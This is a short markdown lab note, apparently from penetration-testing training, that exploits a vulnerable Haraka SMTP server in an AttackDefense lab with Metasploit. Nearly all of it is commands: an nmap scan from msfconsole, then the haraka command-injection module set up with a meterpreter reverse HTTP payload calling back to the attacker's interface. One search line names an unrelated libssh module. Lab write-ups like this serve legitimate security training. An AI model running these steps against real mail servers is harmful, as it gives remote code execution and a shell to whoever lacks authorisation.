


# 🔬SMTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SMTP Server](https://www.attackdefense.com/challengedetails?cid=715)
>
>  - Target IP: `192.109.36.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Haraka < 2.8.9 - Remote Command Execution](https://www.exploit-db.com/exploits/41162)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.109.36.3
setg RHOST 192.109.36.3
workspace -a SMTP_haraka
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV -O 192.109.36.3
```



```bash
search libssh_auth_bypass
use exploit/linux/smtp/haraka
info
# Description:
#   The Haraka SMTP server comes with a plugin for processing 
#   attachments. Versions before 2.8.9 can be vulnerable to command 
#   injection
options
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
set LPORT 8080
run

# This is a NON-staged payload
```



------

